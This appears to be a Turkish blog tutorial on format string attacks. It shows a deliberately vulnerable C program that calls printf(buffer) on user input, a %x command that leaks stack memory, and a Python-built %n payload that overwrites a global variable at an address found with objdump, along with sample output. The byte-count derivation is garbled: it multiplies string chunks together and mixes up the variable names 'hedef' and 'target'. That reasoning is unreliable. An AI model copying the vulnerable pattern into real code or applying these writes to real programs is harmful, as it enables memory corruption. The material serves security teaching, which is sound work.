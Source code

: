 ```yaml
---
title: Format String Attack
layout: post
---
```


# **Format String Nedir ?**
*Format string metin ve format parametreleri tutan bir ASCII'dir. Çoğu programlama dilinde de görebiliriz ki herhangi bir metin yazacağımız zaman bu metini  direk yazımızın içine değilde bir değişkene aktarırız, ve bu değişkenide yazımızın içerisinde format stringler aracılığıyla kullanırız.*

Format Stringleri içeren tablo:

![](https://i.imgur.com/4ZCa5cF.png)


# **Format string zafiyetini içeren fonksiyonlar**
![](https://i.imgur.com/gzbKC2S.png)



# **Örnek format string saldırısı**

**Format String zafiyetini sömürmek için kullanacağımız kodumuz: **
```
#include <stdio.h>
#include <string.h>

int hedef;


int main(int argc, char *argv[]){

		char buffer[64];
		
		strcpy(buffer, argv[1]);
		
		printf("Girdiniz: ");
		
		printf(buffer);
		
		if(hedef){
		   printf("Hedef değişkenini düzenlendi.");
		}
		printf("\n");

}
```


**Derlemek(compile) ve Çalıştırmak(run) için:**

```
gcc vuln.c -o vuln

./vuln "Merhaba Dünya"
```

------------------------------------------------------------------------
<br />
**Zafiyeti kullanarak program içerisinde Bellek Sızıntısı(Memory Leak) yaratmak.**

```
./vuln "0x%x 0x%x 0x%x 0x%x"
```

Yukarıda kullanılan "0x%x" ler baştaki "Format Stringleri içeren tablo"sundan da görebileceğiniz gibi hafıza(memory) içerisindeki diğer adresleri format string zafiyetini sömürerek yazıyoruz. Bellek sızıntısı bu şekilde oluşmuş oluyor. Buffer'e kopyaladığımız 1. argümanımız **printf** fonksiyonu tarafından kullanılmaya çalışıldığında buffere verdiğimiz "0x%x"ler çalışacak ve printf fonksiyonunun format string zafiyetinden yararlanarak bellekteki diğer adresleri gözlemleyebildik.

Ve sonucunda çıktımız(output) şu şekilde gelecektir :

```
root@blacknbunny:/home/blacknbunny# ./vuln "0x%x 0x%x 0x%x 0x%x"
Girdiniz: 0xbffff9b6 0x174 0x174 0x78257830
```

------------------------------------------------------------------------
<br />
Şimdi burdan olayımızı veriye yazmaya yani belirtilen hedef degiskenini düzenlemeye kadar nasıl götürebiliriz ? Cevabımızda aşşağıda :

```
root@blacknbunny:/home/blacknbunny# ./vuln `python -c "print('AAAA' + '\xa4\x96\x04\x08'  + 'BBBB' + '.%x'*4 + '%n')"`
Girdiniz: AAAABBBB.bffff9af.bffff7a8.b7eada75.41414141hedef degiskeni duzenlendi
```

Çıktımızda da gördüğümüz gibi hedef değişkenini yukarıda parametre olarak verdiğimiz python command-line girdisi ile düzenledik. Peki bunu nasıl başardık yani sadece küçük bir **printf** fonksiyonundan hafıza(memory) içerisindeki leak'ten corruption'a yani hafızayı bozmaya ya da düzenlemeye kadar gidebildik ?

İlk önce 4 bytelık bir veri verdik. Buda "AAAA" oluyor.

Sonrasında alttaki komutumuz ile **hedef** değişkenimizin adresini **0x80496a4** olarak bulduk ve 2. olarak python command-line girdimize onu verdik. :

```
root@blacknbunny:/home/blacknbunny# objdump -t ./vuln

...
00000000       F *UND*  00000000              printf@@GLIBC_2.0
0804969c g       *ABS*  00000000              __bss_start
080496a8 g       *ABS*  00000000              _end
```
**080496a4** g     O .bss   00000004              hedef
```
0804969c g       *ABS*  00000000              _edata
...
```

Ve 3. olarak 4 bytelık "BBBB"mizi verdik ki hedefin üzerine "BBBB" yi kullanarak "%n" format string'i ile yazabilelim. %n'in ne olduğunu bilmiyorsanız en üstte bulunan "Format Stringleri içeren tablo"suna da bakabilirsiniz.

------------------------------------------------------------------------
<br />
Başta da memoryi leak etmemizi sağlayan "%x" format stringini hatırlıyorsunuzdur. Onuda en sona koyduk ki bu işlemleri yaparken hafızamızı yani memoryi gözlemleyebilelim.

Sonrasında da "%n" format stringimizi "0x80496a4BBBB.%x.%x.%x.%x%n" metininin toplam byte sayısını **hedef** değişkeninin üzerine yazmak için kullandık.

Toplam byte sayısını hesaplamak için : 

```
4 = "AAAA"

4 = "0x80496a4" # int hedef; değişkenimizin adresi

4 = "BBBB"

4 = ".%x."

4 = "%x.%"

4 = "x.%x"

------------------------------------------------------------------------


"AAAA" *  "0x80496a4"

4 * 4 = 16

"BBBB" * ".%x."

4 * 4 = 16

"%x.%" *  "x.%x"

4*4 = 16

16 + 16 + 16 = 48
```

Bu da demek oluyor ki **int target;** değişkenimizin üzerine 48 yazmışız ki bunun da hex karşılığı 0x30 oluyor.

Tam olarak **int target;** değişkenimizin üzerinde memory(hafıza) içerisinde **0x30** mevcut.



**References:**

[OWASP](https://www.owasp.org/index.php/Format_string_attack)

[Geeksforgeeks](https://www.geeksforgeeks.org/format-string-vulnerability-and-prevention-with-example/)

[Man page](https://linux.die.net/man/3/printf)

[Wikipedia](https://en.wikipedia.org/wiki/Printf_format_string)
